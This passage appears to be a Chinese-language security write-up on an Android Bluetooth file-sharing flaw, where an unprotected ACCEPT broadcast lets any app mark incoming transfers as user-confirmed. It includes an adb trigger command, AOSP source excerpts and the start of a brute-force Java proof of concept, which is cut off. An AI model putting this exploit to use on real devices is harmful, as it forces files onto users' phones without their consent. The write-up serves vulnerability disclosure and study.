 但是android.btopp.intent.action.ACCEPT这个Intent Action，却没有保护

> adb shell am broadcast -a  android.btopp.intent.action.ACCEPT

Broadcasting: Intent { act=android.btopp.intent.action.ACCEPT }
Broadcast completed: result=0

进一步分析AOSP代码，发现传入这个Action的Intent时，会将Intent携带Uri指向的db进行更新，更新为用户确认状态。

```java
 else if (action.equals(Constants.ACTION_ACCEPT)) {
            if (V) Log.v(TAG, "Receiver ACTION_ACCEPT");
            Uri uri = intent.getData();
            ContentValues values = new ContentValues();
            values.put(BluetoothShare.USER_CONFIRMATION, BluetoothShare.USER_CONFIRMATION_CONFIRMED);
            context.getContentResolver().update(uri, values, null, null);
            cancelNotification(context, uri);
```
这个db其实就是蓝牙文件共享的provider，对应的uri为content://con.android.bluetooth.opp/btopp，当通过蓝牙共享接收、发送文件时，该数据库都会增加新的条目，记录接收、发送的状态。该provider记录的信息可以参考BluetoothShare
	
```java
/**
* Exposes constants used to interact with the Bluetooth Share manager's content
* provider.
* @hide
*/
public final class BluetoothShare implements BaseColumns {
    private BluetoothShare() {
    }
    /**
     * The permission to access the Bluetooth Share Manager
     */
    public static final String PERMISSION_ACCESS = "android.permission.ACCESS_BLUETOOTH_SHARE";
    /**
     * The content:// URI for the data table in the provider
     */
    public static final Uri CONTENT_URI = Uri.parse("content://com.android.bluetooth.opp/btopp");
```

因此，如果我们在Intent中传入某个蓝牙共享对应文件的uri，那么它在蓝牙文件共享Provider中的状态就会被更改为用户确认状态。这里继续进行猜想，进一步，如果我们刚好通过蓝牙传入某个文件，将其状态改为用户确认，是否文件就无需确认，自动接收了呢？幸运的是，的确如此。

### 0x03 漏洞利用

这里还有一个问题要解决，content://com.android.bluetooth.opp/btopp只是整个provider的uri，我们如何知道刚刚通过蓝牙传入文件的uri呢？通过暴力穷举，下面的PoC简单地解决了这个问题，

``` java
public class MainActivity extends AppCompatActivity {
    Button m_btnAccept = null;
    public static final String ACTION_ACCEPT = "android.btopp.intent.action.ACCEPT";
    public static final String BLUETOOTH_SHARE_URI = "content://com.android.bluetooth.opp/btopp/";
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        m_btnAccept = (Button)findViewById(R.id.accept);
        m_btnAccept.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View view) {
                Intent intent = new Intent();
                intent.setComponent(new ComponentName("com.android.bluetooth",
                        "com.android.bluetooth.opp.BluetoothOppReceiver"));
                intent.setAction(ACTION_ACCEPT);
                // Guess the incoming bluetooth share uri, normally it increases from 1 by 1 and could be guessed easily.
```